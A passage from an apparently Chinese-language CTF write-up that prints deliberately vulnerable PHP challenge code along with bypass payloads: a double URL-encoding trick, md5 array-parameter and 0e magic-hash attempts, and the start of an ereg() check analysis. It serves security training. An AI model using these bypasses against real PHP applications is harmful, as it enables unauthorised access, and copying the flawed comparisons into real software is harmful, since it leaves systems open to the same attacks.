 这里的二次是因为第一次加密的%4a直接被浏览器给解密了。之后在进行自己的加密变成了%254A。
被php源码解密一次，浏览器解密一次就直接ok了

![Image.png](https://i.loli.net/2019/05/02/5ccadc323939e.png)

得到flag
其他的字母替换均无效
payload:?id=hackerD%254A

### MD5()函数
源码
```
<?php
error_reporting(0);
$flag = 'flag{test}';
if (isset($_GET['username']) and isset($_GET['password'])) {
if ($_GET['username'] == $_GET['password'])
print 'Your password can not be your username.';
else if (md5($_GET['username']) === md5($_GET['password']))
die('Flag: '.$flag);
else
print 'Invalid password';
}
?>
```
想到了md5缺陷的两种利用方法
0e的科学计数法
构造0e payload 尝试绕过
 ?username=s155964671a&password=0e342768416822451524974117254469
无法绕过

![Image.png](https://i.loli.net/2019/05/02/5ccadc6a0d6fc.png)

![Image.png](https://i.loli.net/2019/05/02/5ccadc6a162a4.png)\

使用数组缺陷绕过
构造payload:?username[]=1&password[]=0e
### 数组返回NULL绕过
源码
```
<?php
$flag = "flag";

if (isset ($_GET['password'])) {
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
echo 'You password must be alphanumeric';
else if (strpos ($_GET['password'], '--') !== FALSE)
die('Flag: ' . $flag);
else
echo 'Invalid password';
}
?>
```
ereg和eregi差不多的，区别在于是否匹配大小写
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)为了判断是否有输入数字、字母
